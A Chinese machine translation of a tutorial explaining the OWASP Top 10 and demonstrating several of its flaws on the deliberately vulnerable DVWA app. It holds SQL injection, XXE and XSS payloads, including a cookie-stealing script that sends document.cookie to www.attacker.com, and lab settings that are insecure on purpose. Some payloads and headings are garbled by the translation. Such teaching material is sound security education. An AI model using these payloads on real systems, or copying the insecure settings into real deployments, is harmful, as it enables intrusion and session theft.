# OWASP 十大和 DVWA

> 原文：<https://levelup.gitconnected.com/ethical-hacking-part-1-owasp-top-10-and-dvwa-3f2d55580ba8>

## 了解风险以防止攻击的道德黑客——开放 Web 应用程序安全项目(OWASP)前 10 名和该死的易受攻击 Web 应用程序(DVWA)



来自 Adobe Stock 的许可图像

如果您打算深入研究道德黑客的世界，特别是 web 应用程序渗透“pen”测试，一个好的起点是了解什么是 OWASP，更具体地说是 OWASP Top 10。

“[开放网络应用安全项目(OWASP)](https://owasp.org/) 是一个致力于提高软件安全性的非营利性基金会。通过社区主导的开源软件项目、全球数百个地方分会、数万名会员以及领先的教育和培训会议，OWASP 基金会成为开发人员和技术人员保护网络安全的来源。”— [OWASP 基金会](https://owasp.org/)

“ [OWASP 前 10 名](https://owasp.org/www-project-top-ten)是面向开发人员和 web 应用程序安全性的标准意识文档。它代表了对 web 应用程序最关键的安全风险的广泛共识。

公司应该采纳这份文件，并开始确保他们的网络应用程序将这些风险降至最低。使用 OWASP Top 10 可能是将您组织内的软件开发文化转变为产生更安全代码的最有效的第一步。“— [OWASP 基金会](https://owasp.org/)

[OWASP 前 10 名](https://owasp.org/www-project-top-ten)由 [OWASP 基金会](https://owasp.org/)描述如下:

[**十大 Web 应用安全风险**](https://owasp.org/www-project-top-ten/)

1.  [**注射**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection) 。当不可信数据作为命令或查询的一部分发送到解释器时，会出现注入缺陷，如 SQL、NoSQL、操作系统和 LDAP 注入。攻击者的恶意数据可以欺骗解释器执行非预期的命令或在没有适当授权的情况下访问数据。
2.  [**破认证**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication) 。与身份验证和会话管理相关的应用程序功能通常没有正确实现，这使得攻击者能够泄露密码、密钥或会话令牌，或者利用其他实现缺陷来临时或永久冒充其他用户的身份。
3.  [**敏感数据曝光**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure) 。许多 web 应用程序和 API 不能很好地保护敏感数据，如金融、医疗保健和 PII。攻击者可能窃取或修改这种保护薄弱的数据，以进行信用卡欺诈、身份盗窃或其他犯罪。敏感数据可能会在没有额外保护(如静态加密或传输加密)的情况下遭到破坏，并且在与浏览器交换时需要采取特殊的预防措施。
4.  [**【XXE】XML 外部实体**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE)) 。许多旧的或配置不良的 XML 处理器评估 XML 文档中的外部实体引用。外部实体可通过文件 URI 处理程序、内部文件共享、内部端口扫描、远程代码执行和拒绝服务攻击来泄露内部文件。
5.  [**破坏访问控制**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control) 。对经过身份验证的用户被允许做什么的限制通常没有得到适当的执行。攻击者可以利用这些缺陷来访问未经授权的功能和/或数据，例如访问其他用户的帐户、查看敏感文件、修改其他用户的数据、更改访问权限等。
6.  [**安全误配置**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration) 。安全配置错误是最常见的问题。这通常是由不安全的默认配置、不完整或临时配置、开放式云存储、错误配置的 HTTP 头以及包含敏感信息的详细错误消息造成的。不仅必须安全地配置所有操作系统、框架、库和应用程序，而且必须及时地对它们进行修补/升级。
7.  [**跨站脚本 XSS**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)) 。每当应用程序在没有适当验证或转义的情况下在新网页中包含不受信任的数据，或者使用可以创建 HTML 或 JavaScript 的浏览器 API 使用用户提供的数据更新现有网页时，就会出现 XSS 漏洞。XSS 允许攻击者在受害者的浏览器中执行脚本，从而劫持用户会话、篡改网站或将用户重定向到恶意网站。
8.  [**缺乏安全感**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization) 。不安全的反序列化通常会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，它们也可用于执行攻击，包括重放攻击、注入攻击和权限提升攻击。
9.  [**利用已知漏洞的组件**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities) 。库、框架和其他软件模块等组件以与应用程序相同的权限运行。如果易受攻击的组件被利用，这种攻击会导致严重的数据丢失或服务器接管。使用具有已知漏洞的组件的应用程序和 API 可能会破坏应用程序防御，并导致各种攻击和影响。
10.  [**记录不足&监控不足**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring) 。日志记录和监控不足，加上与事件响应的集成缺失或无效，使得攻击者能够进一步攻击系统，保持持久性，转向更多系统，以及篡改、提取或破坏数据。大多数违规研究显示，检测违规的时间超过 200 天，通常是由外部方检测到的，而不是内部流程或监控。

我将使用[该死的易受攻击的 Web 应用程序(DVWA)](https://github.com/digininja/DVWA) 来演示其中的一些。这是一个免费的网络应用程序，它被故意设计成漏洞百出。我建议您自己下载并安装它，按照本教程进行操作，并亲自试用。

DVWA 涵盖的漏洞有:

*   蛮力
*   命令注入
*   CSRF
*   文件包含
*   文件上传
*   不安全的验证码
*   SQL 注入
*   SQL 注入(盲)
*   弱会话 id
*   XSS
*   XSS(反射)
*   XSS(已存储)
*   CSP 旁路
*   Java Script 语言

您可以使用其他专门构建的“错误”应用程序进行练习。

*   [bWAPP，或者一个*漏洞百出的网络应用*](http://www.itsecgames.com/)
*   [小蛇二号](https://sourceforge.net/projects/mutillidae/)
*   [OWASP WebGoat](http://webappsecmovies.sourceforge.net/webgoat/)

如果你觉得这是一个挑战，这里列出了超过 60 个易受攻击的网络、移动和操作系统项目。

在这方面，我们有点被宠坏了，但我们将从 [DVWA](https://github.com/digininja/DVWA) 开始。初始设置有点棘手，所以我会告诉你。

我为我的 DVWA 环境使用了一个自由层[Amazon EC2](http://console.aws.amazon.com/ec2)Ubuntu Server 20.04(64 位)实例。我推荐使用 Ubuntu，因为我已经在本文中详细介绍了这些步骤。如果您愿意为您的系统配置相同的版本，您可以使用其他“风格”的 Linux。你也不需要使用亚马逊 EC2，如果你不想太。我只是觉得这是最快、最容易的配置方式，但是如果您愿意，您可以安装本地虚拟机(VirtualBox、VMWare 等)或物理安装。

一旦你的 Ubuntu 系统启动并运行，我们将需要配置 Apache 2.4、MySQL 服务器和带有 MySQL 扩展的 PHP。请将以下用户配置为 root 用户或使用 sudo。

```
# **apt-get update -y**
# **apt-get upgrade -y**
# **apt-get install apache2 mysql-server php php-gd** **php-mysql -y**# **/etc/init.d/apache2 start**
# **/etc/init.d/mysql start**# **update-rc.d apache2 defaults**
# **update-rc.d mysql defaults**
```

现在，我们可以提供最新版本的 DVWA。

```
# **cd /var/www/html**
# **git clone** [**https://github.com/digininja/DVWA**](https://github.com/ethicalhack3r/DVWA)# **chmod -R 777 /var/www/html/DVWA**   <--   yes, not a mistake -- 777# **mv /var/www/html/DVWA/config/config.inc.php.dist /var/www/html/DVWA/config/config.inc.php**
```

我们将使用 MySQL 作为 DVWA 的数据库，所以我们需要确保它有一个基本配置。

```
# **mysql -u root -p**
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.21-0ubuntu0.20.04.4 (Ubuntu)Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.mysql> **CREATE DATABASE dvwa;**
Query OK, 1 row affected (0.00 sec)mysql> **CREATE USER 'user'@'127.0.0.1' IDENTIFIED BY 'pass';**
Query OK, 0 rows affected (0.01 sec)mysql> **GRANT ALL ON dvwa.* TO 'user'@'127.0.0.1';**
Query OK, 0 rows affected (0.00 sec)mysql> **FLUSH PRIVILEGES;**
Query OK, 0 rows affected (0.00 sec)mysql> **EXIT;**
Bye
```

我们需要对 php.ini 文件进行一些修改。不要问我为什么，虽然我可以看到当我从命令行运行"**PHP-ini**时"**/etc/PHP/7.4/Apache 2/PHP . ini**"没有加载，但是如果您没有在中对"***allow _ URL _ fopen***"和"***allow _ URL _ include***"进行更改

*   /etc/php/7.4/cli/php.ini
*   /etc/php/7.4/apache2/php.ini

```
allow_url_fopen = On
allow_url_include = On
extension=mysqli
```

完成后，重新启动 Apache。

```
# **/etc/init.d/apache2 restart**
Restarting apache2 (via systemctl): apache2.service.
```

我们现在需要更新 DVWA 配置文件:**/var/www/html/DVWA/config/config . Inc . PHP**

在此之前还有一项任务要做。DVWA 有一个 reCAPTCHA 组件。你需要去 [Google reCaptcha](https://www.google.com/recaptcha/admin/create) 获取你的公钥和私钥。这是非常快速和无痛的。



记下您的“**站点密钥**和“**秘密密钥**”。



请在您的“**/var/www/html/DVWA/config/config . Inc . PHP**”文件中进行以下更新:

```
$_DVWA[ 'db_server' ]   = '127.0.0.1';
$_DVWA[ 'db_database' ] = 'dvwa';
$_DVWA[ 'db_user' ]     = 'user';
$_DVWA[ 'db_password' ] = 'pass';$_DVWA[ 'recaptcha_public_key' ]  = '***SITE KEY***';
$_DVWA[ 'recaptcha_private_key' ] = '***SECRET KEY***';
```

立即浏览您的 DVWA 网站: **http://SERVER_IP/DVWA**



默认登录凭据:

用户名:**管理员**
密码:**密码**

首次登录时，您将看到这个 setup.php 页面。



现在，理想情况下，如果到目前为止一切都按计划进行，您的设置页面应该看起来像上面一样，所有相关项目都是“绿色”的。如果是，则点击“**创建/重置数据库**”完成 MySQL 数据库的配置。

DVWA 可以在多种模式下工作，默认模式是最安全的“**不可能**”。您需要单击“ **DVWA 安全**”菜单项，并将安全级别更改为“**低**”，以模拟典型的易受攻击的应用程序。



这就是完成的设置:)

所以回到我们的 OWASP 前 10 名，以及如何用一个实际的易受攻击的应用程序来演示每一个。

**1 —“注入”或更常见的“SQL 注入”**

作为一名开发人员，您永远不应该基于用户输入构建 SQL 查询。

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

您应该始终使用所有主流编程语言都包含的“绑定”。

```
$sql = 'SELECT first_name, last_name FROM users WHERE user_id = :id';*** then bind :id to $id ***
```

在 DVWA 应用程序中，点击“ **SQL 注入**”菜单项。如果您在*文本框*中键入用户 ID 1，然后单击**提交**，您将看到它检索到 ID 为 1 的第一个用户。



这看起来相当安全，对吗？…错了

当您单击“**提交**”时，此查询中的“ **1** ”将被翻译成“ **$id** ”变量。

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';**SELECT first_name, last_name FROM users WHERE user_id = '1';**
```

但是如果我们将它提交到*文本框* :
**或‘1’=‘1**中会怎么样呢

现在将被翻译成这个。

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';**SELECT first_name, last_name FROM users WHERE user_id = '' or '1'='1';**
```

因为 **'1' = '1'** 这将检索数据库中的所有用户！



除了有严重的数据泄露之外，还可能包含可以删除或更新数据的 SQL。如果 MySQL 使用的是根用户，那就更糟了，因为您可以无限制地控制整个数据库，而不仅仅是本例中的“dvwa”数据库。

**2 —身份验证被破坏**

此攻击与糟糕的用户身份验证和会话管理有关。

示例:

*   允许密码被“暴力破解”,允许快速连续地无限制尝试。
*   仅依靠密码来保护应用程序—没有多因素身份认证(2FA)
*   无会话超时—用户使用公共资源

**3 —敏感数据暴露**

这种攻击与没有采取适当的措施来保护静态或传输中的敏感数据有关。

任何静态敏感数据都应至少使用 AES256 位加密进行加密。对于任何传输中的数据，您应该考虑使用至少 TLS 1.2 对流量进行加密。

不用说，任何敏感数据都不应该存储在代码库中。

**4 — XML 外部实体(XXE)**

这种攻击实际上涵盖了一个更广泛、更常见的问题。许多支持上传文件的网站将文件保存在 HTTP 目录结构中，这意味着一旦上传，就可以通过浏览器执行。一些网站可能会检测到上传的问题，但不会删除它，因此它仍然可以被攻击者执行。

我将给你一个使用 DVWA 的实际例子。



所以 DVWA 希望上传一张图片，但是如果我们上传以下图片呢？

【phpinfo.php
**(显示 php 的完整配置，但这是一个在上传后如何运行任何 PHP 脚本的例子)**

```
<?php phpinfo() ?>
```

****attack1.xml**
(攻击者试图检索 passwd 文件！)**

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

****attack2.xml**
(攻击者正在探查内部网络)**

```
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```

****attack3.xml**
(潜在的拒绝服务攻击打开一个无休止的文件)**

```
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```

****

**所以我上传了“**phpinfo.php**”，你可以看到上传的文件在 HTTP 目录结构中是可达的。**

**[http://SERVER _ IP/DVWA/hackable/uploads/phpinfo . PHP](http://3.249.140.112/DVWA/hackable/uploads/phpinfo.php)**

****

**上传的文件**永远不能直接通过浏览器**访问。如果你认为你可以用 MIME 检查或任何其他检查来验证上传的文件，那你就错了，因为它们可能会被欺骗。如果上传的文件可以通过浏览器访问(同名)，无论你认为它有多安全，你都是易受攻击的。**

**如果你对此感到困惑，这里有一些建议:**

*   **如果上传有可疑问题隔离或删除它，不要把它留在系统的“*上传*目录中。**
*   **将上传的文件重命名为其他名称，使攻击者更难找到并执行该文件。**
*   **如果您需要通过浏览器检索上传的文件，请使用助手函数来检索文件并提供服务。这将给你更多的控制来运行额外的检查。**
*   **确保您的 web 服务器禁用了目录浏览。您应该不能浏览任何目录并看到全部内容。**
*   **确保您的 web 服务器上没有目录递归。你不希望他们做这样的事情../../../etc/passwd。**

****5 —访问控制被破坏****

**这很难证明，但漏洞的可能症状有:**

*   **攻击者能够强制浏览到他们不应该拥有权限页面或目录。**
*   **攻击者能够将他们自己的自定义数据发布到不能正确验证数据的表单和 API。**

**通常识别这些漏洞的方法是使用[静态应用程序安全测试(SAST)](https://owasp.org/www-community/Source_Code_Analysis_Tools) 工具进行源代码分析，使用[动态应用程序安全测试(DAST)](https://owasp.org/www-community/Vulnerability_Scanning_Tools) 工具进行漏洞扫描。根据您的需求，您需要为正在使用的编程语言使用合适的工具。**

****6 —安全错误配置****

*   **许多服务和库是使用默认登录凭据安装的。以 DVWA 为例，它的用户名和密码是“admin”和“password”。如果您只是保留默认值，攻击者就很容易进入。始终更改默认用户名和密码。用户名和密码一样重要。尽量不要使用明显的管理员和超级用户用户名，例如 admin、root、administrator 等。**
*   **许多服务都提供了默认代码或示例代码。这些应该被删除，不能通过您的网站。**
*   **不要把不用的网页留在你的网页目录里。如果您正在使用它们，请将其移除。仅仅因为用户可能无法通过 web 应用程序中的链接浏览到它，并不意味着攻击者不能直接强制浏览到它。**
*   **确保正确设置了文件和目录的权限，并且禁用了目录浏览。您的 web 服务器应该由专门的用户和组运行，例如“wwwrun”和“www”。web 服务器用户应该只能访问网站并进行登录。如果攻击者能够控制 web 服务器服务，他们应该只能做非常有限的事情。以“root”或“管理员”身份运行 web 服务器显然是不可接受的。**
*   **web 服务器和编程语言应该被配置成在它们是什么和版本方面透露很少的信息。详细错误消息和调试应该仅在开发时可用，并且应该在生产中关闭或通用。**

****7 —跨站点脚本(XSS)****

**实际上有三种形式的 XSS 攻击，它们是最容易检测到的漏洞之一。有许多工具，我将在接下来的文章中介绍，它们将非常快速和容易地检测到这些问题。**

*   ****映 XSS****

**攻击者能够在表单和 API 帖子中包含 HTML 和 Javascript，从而允许代码在受害者浏览器中自动执行。**

**让我们看一个使用 DVWA 的例子…**

****

**一张简单的询问我名字的表格。**

**如果我将 Javascript 代码作为名称，会发生什么？
**' > <剧本>警戒(" XSS 进攻！")</脚本>’****

****

*   ****存储的 XSS****

**攻击者能够在表单和 API 帖子中包含和存储 HTML 和 Javascript，这使得代码可以在以后被其他用户或管理员查看。这种攻击实际上比反射 XSS 更糟糕，因为无意中运行代码的用户或管理员可能拥有提升的权限。**

****

**在留言簿上签名的简单表格。**

**如果我在消息中包含 Javascript 代码，会发生什么？
**' > <剧本>警戒(" XSS 进攻！")</剧本>’****

****

**更糟糕的是，每次页面加载警告模式“XSS 攻击”时，这个信息都会存储在数据库中突然出现。**

********

**请记住，这只是一个基本的 Javascript 警报，但如果攻击者将用户重定向到其他包含敏感信息(如您的浏览器 cookie 信息)的地方，该怎么办呢！**

****' > <脚本>document . location = '**[**http://www.attacker.com/cgi-bin/cookie.cgi**](http://www.attacker.com/cgi-bin/cookie.cgi)**？foo = '+document . cookie</script>'。****

*   **多姆 XSS**

****这通常与基于 Javascript 的应用程序有关。攻击者能够将攻击者可控制的数据包含到易受 DOM XSS 攻击的页面中。典型攻击的示例可能是窃取会话、接管帐户、绕过 MFA、DOM 节点操作、恶意组件、按键记录和许多其他客户端攻击。****

********

****看起来足够无害…我选择“**英文**”。****

****你会注意到网址改成了这样:
[**http://SERVER _ IP/DVWA/vulnerabilities/XSS _ d/？**默认=英文](http://3.249.140.112/DVWA/vulnerabilities/xss_d/?default=English)****

****但是如果我把"**英文**"换成" **<脚本> alert('XSS 进攻！')会怎么样呢)</剧本>** ”****

****[**http://SERVER _ IP/DVWA/vulnerability/XSS _ d/？默认=**](http://3.249.140.112/DVWA/vulnerabilities/xss_d/?default=English) **<脚本>警报(‘XSS 攻击’)</脚本>******

********

****[**http://SERVER _ IP/DVWA/vulnerability/XSS _ d/？default = % 3Cscript %警报(% 27XSS %攻击%27)%3C/script%3E**](http://3.249.140.112/DVWA/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(%27XSS%20attack%27)%3C/script%3E)****

******8 —不安全的去串行化******

****描述这种情况最简单的方法是重放攻击。攻击者将捕获两台设备之间的未加密通信，对通信进行更改，然后重放它。****

****例如，一个 PHP 应用程序使用 PHP 对象序列化来保存一个“超级”cookie，其中包含用户的用户 ID、角色、密码散列和其他状态。攻击者会更改这个 cookie 来为他们提供提升的权限。****

******9 —使用具有已知漏洞的组件******

****攻击者经常试图利用未修补的漏洞。这实际上比你想象的要容易，因为有像 [Exploit DB](https://www.exploit-db.com/) 这样的免费数据库，其中包含成千上万的漏洞以及如何使用它们。这就是为什么隐藏尽可能多的关于服务和版本的信息是必要的。例如，如果攻击者能够发现一个 web 应用程序在 apache 2.4 上使用 php 7.4，他们只需要在数据库中搜索“PHP 7.4”和“Apache 2.4”，就可以利用许多已知的漏洞。****

******10 —测井不足&监测******

****这里的底线是，如果你没有意识到你正在被攻击，你基本上是在给攻击者无限的时间来实施他们的攻击。如果攻击者能够危害您的应用程序，而您却没有意识到，他们可能会造成严重破坏并毁坏可能无法恢复的数据。据 OWASP 称，大多数违规研究表明，检测违规的时间超过 200 天，通常是由外部方检测到的，而不是内部流程或监控。****

****那么你应该做什么呢？****

*   ****审计事件，如登录、失败、高价值交易等。****
*   ****警告和错误应该生成有意义的日志条目。****
*   ****记录可疑活动(例如过度使用 API 调用)。****
*   ****集中记录…不要在本地存储日志。****
*   ****实施一个流程，以近乎实时的方式处理特定阈值的事件。****
*   ****自动化安全事件处理，例如 SOAR(安全协调、自动化和响应)以及安全信息和事件管理(SIEM)****

****为了进一步阅读，请查看我写的关于这个话题的 19 个故事。****

****

迈克尔·惠特尔**** 

## ****道德黑客培训课程****

****[View list](https://whittle.medium.com/list/ethical-hacking-training-course-710769700b83?source=post_page-----3f2d55580ba8--------------------------------)********19 stories****************************

# ****迈克尔·惠特尔****

*   *******如果你喜欢这个，请*** [***跟我上媒***](https://whittle.medium.com/)****
*   *******更多有趣的文章，请*** [***关注我的刊物***](https://medium.com/trading-data-analysis)****
*   *******有兴趣合作？*** [***咱们上领英***](https://www.linkedin.com/in/miwhittle/) 连线****
*   *******支持我和其他媒体作者*** [***在此报名***](https://whittle.medium.com/membership)****
*   *******请别忘了为文章鼓掌:)←谢谢！*******